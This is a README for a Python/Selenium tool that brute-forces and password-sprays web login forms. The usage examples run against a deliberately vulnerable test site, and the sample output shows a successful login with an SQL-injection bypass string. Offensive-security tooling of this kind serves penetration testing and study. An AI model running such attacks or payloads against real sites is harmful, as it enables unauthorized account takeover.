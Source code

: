 # WeBrufo (WEb BRUte-FOrcer)

## Table of Contents

* [Introduction](#Introduction)
* [Dependencies](#Dependencies)
* [Usage](#Usage)
* [Limitation](#Limitation)



## Introduction
A simple script to bruteforce web forms. Uses CSS selector to locate the inputs and perform bruteforce. Both credential bruteforce and spraying can be performed using this script. The script is inspired from <a href="https://github.com/maximousblk/callow">Callow</a>. This script works on [<b>most*</b>](#Limitation) of the web forms with any number of inputs, provided the input css selector are passed in the argument. The tool is useful in scenario's where burp or hydra cannot be used for bruteforcing http forms.

And as for the name, I was too lazy to think and come up with some cool name...

## Dependencies
The script primarily requires python (obviously) and Selenium to start a headless browser session and perform the bruteforce. Can be installed using  
``` python
pip install selenium
```
## Usage
```bash
    __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
usage: webrufo.py [-h] [-p PARAMS [PARAMS ...]] [-c CONST [CONST ...]] [--count COUNT]
                  [--submit SUBMIT] [--resume] [-u URL] [-d]

Bruteforce web form fields.

options:
  -h, --help            show this help message and exit
  -p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                        HTTP parameters -p '#username'::username.txt '#password'::password.txt
  -c CONST [CONST ...], --const CONST [CONST ...]
                        Constant parameters. Syntax same as for --params. Useful for Null payload
                        bruteforce/Password spraying etc.
  --count COUNT         Count of null payloads. To be used when only constant parameters are
                        passed. Usefull for null payload bruteforce.
  --submit SUBMIT       Optional argument to pass CSS selector for submit button
  --resume              Optional parameter to continue even after getting valid credentials
  -u URL, --url URL     Target URL
  -d, --debug           Print debug information
```


The basic command to run the script is
```bash
/webrufo> python webrufo.py -u http://testphp.vulnweb.com/login.php -p '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(1) > td:nth-child(2) > input[type=text]'::file.txt '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(2) > td:nth-child(2) > input[type=password]'::file.txt --resume

     __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
Initiating bruteforce attack
Tried: ['test', 'test']                           
Bruteforce successful. Credential combination: ['test', 'test']
Tried: ["' OR 1=1-- -", "' OR 1=1-- -"]                         
Bruteforce successful. Credential combination: ["' OR 1=1-- -", "' OR 1=1-- -"]
Tried: ['azureuser', 'azureuser']                                 
Attack completed!!
```

The script usage with constant parameters are:
```bash
/webrufo> python webrufo.py -u http://testphp.vulnweb.com/login.php -p '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(1) > td:nth-child(2) > input[type=text]'::file.txt -c '#content > div:nth-child(1) > form > table > tbody > tr:nth-child(2) > td:nth-child(2) > input[type=password]'::testpassword --resume

     __      __      ___.                 _____       
    /  \    /  \ ____\_ |_________ __ ___/ ____\____  
    \   \/\/   // __ \| __ \_  __ \  |  \   __\/  _ \ 
     \        /\  ___/| \_\ \  | \/  |  /|  | (  <_> )
      \__/\  /  \___  >___  /__|  |____/ |__|  \____/ 
           \/       \/    \/                          
    
Initiating bruteforce attack
Tried: ["' OR 1=1-- -", 'testpassword']                         
Bruteforce successful. Credential combination: ["' OR 1=1-- -", 'testpassword']
Tried: ['azureuser', 'testpassword']                             
Attack completed!!
```

## Limitation

The only limitation identified during the testing till now with the tool is _ElementNotInteractableException_ wherein the passed input element is not visible by default on webpage load. 